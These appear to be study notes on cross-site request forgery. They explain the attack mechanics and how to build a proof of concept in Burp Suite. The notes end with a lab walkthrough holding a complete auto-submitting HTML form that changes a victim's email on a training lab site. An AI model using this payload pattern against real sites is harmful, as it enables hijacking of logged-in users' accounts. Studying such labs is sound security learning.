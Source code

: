 ```html
```

 If a victim user visits the attacker's web page, the following will happen:

- The attacker's page will trigger an HTTP request to the vulnerable website.
- If the user is logged in to the vulnerable website, their<span style="color:rgb(192, 0, 0)"> browser will automatically  include their session cookie in the request</span> (assuming SameSite cookies are not being used).
- The vulnerable website will process the request in the normal way, treat it as having been made by the victim user, and change their email address.
#### Note
- Although CSRF is normally described in relation to cookie-based session handling, it also arises in other contexts where the application automatically adds some user credentials to requests, such as HTTP Basic authentication and certificate-based authentication.


## How to construct a CSRF attack

Manually creating the HTML needed for a CSRF exploit can be cumbersome, particularly where the desired request contains a large number of parameters, or there are other quirks in the request. The easiest way to construct a CSRF exploit is using the CSRF PoC generator that is built in to Burp Suite Professional:

- Select a request anywhere in Burp Suite Professional that you want to test or exploit.
- From the right-click context menu, select Engagement tools / Generate CSRF PoC.
- Burp Suite will generate some HTML that will trigger the selected request (minus cookies, which will be added automatically by the victim's browser).
- You can tweak various options in the CSRF PoC generator to fine-tune aspects of the attack. You might need to do this in some unusual situations to deal with quirky features of requests.
- Copy the generated HTML into a web page, view it in a browser that is logged in to the vulnerable website, and test whether the intended request is issued successfully and the desired action occurs.

# [Practice](https://portswigger.net/web-security/learning-paths/csrf/csrf-how-to-construct-a-csrf-attack/csrf/lab-no-defenses#) in laboratory
## Try to solve it yourself.
## Solution
- login and change email
- find the resulting request in your Proxy history.
- generate **html code** for exploit this point
	- you can use burp sutie pro --> generate csrf poc 
	- or write manually
```html
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a40007d041d1de88085b7ee004500ab.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="salar&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
- .
	- check code working